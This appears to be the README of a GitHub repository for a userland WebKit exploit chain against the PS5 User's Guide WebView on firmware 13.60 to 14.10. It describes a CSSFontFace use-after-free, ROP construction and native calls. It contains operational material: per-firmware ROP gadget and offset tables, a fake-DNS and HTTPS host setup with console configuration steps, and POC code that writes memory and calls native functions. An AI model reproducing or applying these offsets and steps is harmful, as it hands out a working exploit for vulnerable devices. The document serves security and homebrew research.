

<p align="center">
  
</p>

# PS5 Galberik Userland

<p align="center">
  
  
  
  <a href="LICENSE"></a>
</p>

Userland-only WebKit exploit for the PlayStation 5 User's Guide WebView, firmware
13.60 through 14.10.

> **Scope.** This chain stays in userland. It does not contain a kernel
> exploit, privilege escalation, or an ELF loader, and the payload runs inside
> the sandboxed WebContent process (uid 1).

## Overview

The chain targets a `CSSFontFace` lifetime use-after-free (WebKit bug 312202),
turns the reclaimed object into an arbitrary userland read, builds a CFI-valid
native callback, and executes a returning ROP chain that performs `getpid` and
`sceKernelSendNotificationRequest`.

The UAF is in the `FontFaceSet::load` path: while the native frame holds
`matchingFaces`, a synchronous `FontFace.loaded` resolution runs author script
that removes the `@font-face` rule. On pre-fix builds the face is released and
reclaimed by a 192-byte `ArrayBuffer`; on fixed builds the `Ref` keeps it alive.

The relevant upstream change is `db05eacaeb0c` (cherry-pick `37857d26`), which
replaces `Vector<std::reference_wrapper<CSSFontFace>>` with
`Vector<Ref<CSSFontFace>>` in `FontFaceSet::load`.

## Firmware support

| Firmware | WebKit build | Offsets | Heap geometry | Status |
|---|---|---|---|---|
| `13.60` | `Neko.1340` (`e63acdc1…`) | verified | device-calibrated | reference profile |
| `14.00` | `Neko.1400` | verified against dumps | shipped | validate on device |
| `14.10` | `Neko.1400` | verified against dumps | shipped | validate on device |
| `14.20`+ | — | — | — | patched upstream, not supported |

`14.00` and `14.10` NKWebKit LOAD segments are byte-identical, so the WebKit
offsets are shared.

## TODO: calibrate 14.00 and 14.10

`13.60` is validated on retail hardware. To finish `14.00` or `14.10`:

- [ ] Re-verify the offsets in `src/firmware/offsets/<version>.js` against the
      NKWebKit and libkernel dumps for your exact build.
- [ ] Run the chain once without changing code and keep the server console
      output.
- [ ] Read `SCAN_ENTER`, `STRING_SCAN`, `WINNER`, `CAL_TARGET` and
      `SPLIT_TARGET` to measure the winning carrier and the real indices.
- [ ] Tune `early_string_index`, `early_dash_index`, `winner_anchor` and
      `stage_bias_cells` in `src/firmware/calibration/<version>.js` until the
      drift checks stop failing: `INCONCLUSIVE_CAL_INDEX_DRIFT`,
      `INCONCLUSIVE_DIRECT_DASH_INDEX_DRIFT`, `CAL_GEOMETRY_MISMATCH`,
      `EARLY_IDENTITY_DRIFT`, `EARLY_PLAN_GEOMETRY_DRIFT`.
- [ ] Optionally record the observed values in `expected` for reference.
- [ ] Set `calibrated: true` only after a clean run ends in `VERDICT <pid>`
      with the notification shown.
- [ ] Open a PR with the firmware version/build ID, the calibration file and
      the server output that proves the run.

## Requirements

- A PS5 on one of the vulnerable firmware versions.
- A host on the same LAN with Python 3.
- Network access from the console to the host for DNS and HTTPS.

## Quick start

```sh
git clone https://github.com/Andrew-dll/galberik-userland.git
cd galberik-userland
sudo python3 host.py
```

`sudo` is required on Linux and macOS to bind `443` and `53`. On Windows run
`py host.py` (or `python host.py`) without elevation, and allow Python through
the firewall once so the console can reach the HTTPS host.

`host.py` detects the host LAN address, writes `config/dns.conf`, and starts the
fake DNS server and the HTTPS host. `python3 host.py --help` lists `--port`,
`--dns-port`, `--ip`, and `--no-dns`; `PS5_HOST_PORT`, `PS5_DNS_PORT` and
`PS5_IP` provide the same defaults through the environment.

The address comes from the default route. With a VPN or several adapters the
wrong one can be picked, so pass `--ip` or `PS5_IP` to override it. Use
`--no-dns` when DNS is handled by another host.

On the console:

1. Settings → Network → Set Up Internet Connection → Advanced → DNS:
   primary = host IP, secondary = `0.0.0.0`.
2. Settings → User's Guide, accept the untrusted certificate once.
3. The page runs the chain and reports progress through beacons.

## Chain



## Checking the result

The page prints progress to the on-screen console and sends one beacon per
step. A successful run ends with:

- `VERDICT <pid>` — the chain completed and `<pid>` is the `getpid()` result;
- a system notification reading `Galberik Userland. @Andriushkajs`;
- `POC ret=…` when the POC plan made additional native calls.

Useful markers when diagnosing a failure:

| Marker | Meaning |
|---|---|
| `VERDICT` | final result or failure code |
| `SETTER_RETURN` | the native callback returned to JavaScript |
| `PIVOT_POST` | the stack pivot completed and the ROP chain ran |
| `POC` | the extra POC call was executed |
| `STAGE_STOP` | the native stage aborted; the message carries the reason |

## POC API

POCs are served scripts under `document/en/ps5/src/poc/`. The harness always
prepends a `getpid` syscall; `poc_run()` returns additional calls. The file is
loaded with a cache-busting query during native stage boot (phase 2), so editing
it and reloading the User's Guide is enough to try a new plan.

```js
function poc_syscall(id, args = []) { ... }
function poc_call(address, args = []) { ... }

function poc_notify(request) {
  return poc_call(native_context.targets.notify_fn, [0, request, 0xc30, 0]);
}

function poc_run() {
  const request = malloc(0xc30);

  write32(request + 0x10, 0xffffffff);
  write32(request + 0x2c, 1);
  write_string(request + 0x2d, 'Galberik Userland. @Andriushkajs');
  write_string(request + 0x42d, 'cxml://psnotification/tex_icon_system');

  return [poc_notify(request)];
}
```

Native calls are synchronous: the JavaScript thread blocks until the ROP chain
returns. Bulk I/O from a POC would need its own thread (`thr_new`) and a
completion channel rather than an `await`.

## Offsets

### 13.60

`13.60` uses the `Neko.1340` WebKit build (`e63acdc1…`).

| Field | 13.60 |
|---|---:|
| `wk_client_ap` | `0x3249a78` |
| `wk_function_ap` | `0x313e550` |
| `wk_function_slot2` | `0x7e0c00` |
| `wk_fake_client_vtable` | `0x32497f0` |
| `wk_pivot` | `0x2ab6cbe` |
| `wk_capture` | `0x2ab6c9b` |
| `wk_ret` | `0x1750` |
| `wk_pop_rax_ret` | `0x22a12c6` |
| `wk_pop_rdi_ret` | `0x288b2` |
| `wk_pop_rsi_ret` | `0x1ee7a` |
| `wk_pop_rdx_ret` | `0xfa7a2` |
| `wk_pop_rcx_ret` | `0x80597` |
| `wk_pop_r8_ret` | `0x25624d0` |
| `wk_pop_r9_ret` | `0x24535d2` |
| `wk_store_rax_ret` | `0x3881f` |
| `wk_pop_rsp_ret` | `0xa1138` |
| `wk_errno_got` | `0x334e230` |
| `wk_strerror_got` | `0x334e250` |
| `lk_errno` (`__error`) | `0xf7d0` |
| `lk_close` (syscall stub) | `0x1c310` |
| `lk_notify` | `0x48b0` |
| `lc_strerror` | `0x7b730` |

### 14.00 / 14.10

`14.00` and `14.10` share the WebKit-side offsets. The `libkernel` values
differ.

| Field | 14.10 | 14.00 |
|---|---:|---:|
| `wk_client_ap` | `0x324db28` | `0x324db28` |
| `wk_function_ap` | `0x3145ab0` | `0x3145ab0` |
| `wk_function_slot2` | `0x7e0b60` | `0x7e0b60` |
| `wk_fake_client_vtable` | `0x324d8a0` | `0x324d8a0` |
| `wk_pivot` | `0x2ab821e` | `0x2ab821e` |
| `wk_capture` | `0x2ab81fb` | `0x2ab81fb` |
| `wk_ret` | `0x1750` | `0x1750` |
| `wk_pop_rax_ret` | `0x3c71e` | `0x3c71e` |
| `wk_pop_rdi_ret` | `0x288b2` | `0x288b2` |
| `wk_pop_rsi_ret` | `0x1ee7a` | `0x1ee7a` |
| `wk_pop_rdx_ret` | `0x29420c` | `0x29420c` |
| `wk_pop_rcx_ret` | `0x80537` | `0x80537` |
| `wk_pop_r8_ret` | `0x8ce1c` | `0x8ce1c` |
| `wk_pop_r9_ret` | `0x80536` | `0x80536` |
| `wk_store_rax_ret` | `0x385af` | `0x385af` |
| `wk_pop_rsp_ret` | `0xa1488` | `0xa1488` |
| `wk_errno_got` | `0x3352240` | `0x3352240` |
| `wk_strerror_got` | `0x3352260` | `0x3352260` |
| `lk_errno` (`__error`) | `0x2e00` | `0x2e10` |
| `lk_close` (syscall stub) | `0x440` | `0x450` |
| `lk_notify` | `0x1c040` | `0x1bf90` |

Static checks performed while deriving these values:

- every gadget was checked byte-for-byte (`pop reg; ret`, `mov [rdi], rax; ret`,
  `mov rsp, rdi; ret`, …);
- `wk_function_ap + 0x10` is the relocation addend `0x7e0b60`;
- `wk_client_ap` and `wk_fake_client_vtable` resolve to real relocation-backed
  vtables with `.text` pointers;
- `wk_errno_got` and `wk_strerror_got` are import stubs `push 0xd` / `push 0x11`,
  matching the 13.60 import indices for `__error` and `strerror`;
- `lk_close + 7` is `mov r10, rcx; syscall`;
- `lk_notify` is the `deviceId -> fd -> write` wrapper with `EINTR` retry.

The heap calibration indices are not derivable from the binaries; they are
device- and build-specific and live in `src/firmware/calibration/<version>.js`.

## Logging

Everything goes to the console of the Python process:

| Line | Content |
|---|---|
| `[LOG] beacon <tag> <data>` | one line per beacon |
| `[LOG] <method> <path> <code>` | HTTP request served by `host.py` |
| `>> ...` | fake DNS activity from `scripts/fakedns.py` |

## Troubleshooting

- **Page does not load after the certificate prompt.** Reopen User's Guide; a
  fresh console profile asks again.
- **DNS does not resolve.** Check the fake DNS lines in the server console and
  confirm `config/dns.conf` maps `manuals.playstation.net` to the host address.
  The console DNS must point at the host, with `0.0.0.0` as secondary.
- **Port already in use.** `host.py` exits when it cannot bind `443` or `53`.
  Stop the other service, or move the ports with `--port` / `--dns-port` and
  forward them on the router; the console itself always targets `443`/`53`.
- **Unreliable runs.** Reliability depends on the WebContent heap state. Close
  and reopen User's Guide so each attempt runs in a fresh process.

## Repository layout

```text
host.py                          HTTPS host, beacon receiver and launcher
scripts/fakedns.py               fake DNS server
scripts/dumpserver.py            optional TCP dump receiver (5656)
certs/                           local TLS material (certificate + key)
document/en/ps5/
  index.html                     User's Guide entry page
  src/core.js                    logger, version, syscall table
  src/main.js                    bootstrap and firmware selection
  src/webkit/arw.js              FontFace UAF and arbitrary read
  src/native/boot.js             stage locator, CFI graph, pivot
  src/native/rop.js              ROP chain builder
  src/native/call.js             native call helper
  src/native/arena.js            stage arena
  src/poc/payload.js             POC plan
  src/firmware/offsets/          per-firmware RVAs
  src/firmware/calibration/      per-firmware heap geometry
tools/                           optional utilities
```

## Limitations

- No kernel read/write, no credential patch, no root.

## Security and legal

This is research code. No firmware binaries, dumps, console keys, or Sony code
are included in the repository. `dump/` and `config/` are excluded from version
control.

`certs/localhost.pem` is a self-signed development certificate for the fake
HTTPS host and contains its private key; it is committed so a fresh clone can
serve HTTPS immediately. Treat it as a local development credential, not as a
secret, and regenerate it if you deploy the host anywhere else.

Use this only on hardware you own and are authorised to test.

## Credits

- [Andrew-dll](https://github.com/Andrew-dll)
- [0xyg3n](https://github.com/0xyg3n)
- [jordyidk](https://github.com/jordyidk)

For the time spent on research.

## License

MIT. See [LICENSE](LICENSE) for the full text.
